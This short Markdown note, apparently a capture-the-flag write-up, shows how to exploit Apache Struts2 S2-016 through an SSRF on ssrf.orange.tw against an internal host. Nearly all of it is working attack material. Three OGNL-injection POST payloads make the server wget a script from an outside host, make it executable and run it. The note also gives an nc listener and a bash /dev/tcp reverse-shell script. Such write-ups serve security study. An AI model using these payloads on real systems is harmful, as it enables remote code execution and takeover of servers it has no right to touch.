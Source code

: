 ## Struts2
利用S2-016從 http://ssrf.orange.tw:81/ 攻擊 http://172.20.0.6:8080/ 的Apache Struts2
server，使用bash做reverse shell，將reverse shell command包在script內，從server以wget下載script再執行，encode時要encode兩次

### Target
POST: `url=http://172.20.0.6:8080/index.action?redirect:$%7B(new+java.lang.ProcessBuilder(new+java.lang.String%5B%5D%7B'wget','http://my.http.server/revsh.sh'%7D)).start()%7D`
POST : `url=http://172.20.0.6:8080/index.action?redirect:$%7B(new+java.lang.ProcessBuilder(new+java.lang.String%5B%5D%7B'chmod','777','revsh.sh'%7D)).start()%7D`
POST : `url=http://172.20.0.6:8080/index.action?redirect:$%7B(new+java.lang.ProcessBuilder(new+java.lang.String%5B%5D%7B'./revsh.sh'%7D)).start()%7D`
#### Server
```
$ nc -lvp 5678
```
#### Script
```sh
#!/bin/bash
bash -i >& /dev/tcp/SERVER_IP/5678 0>&1
```
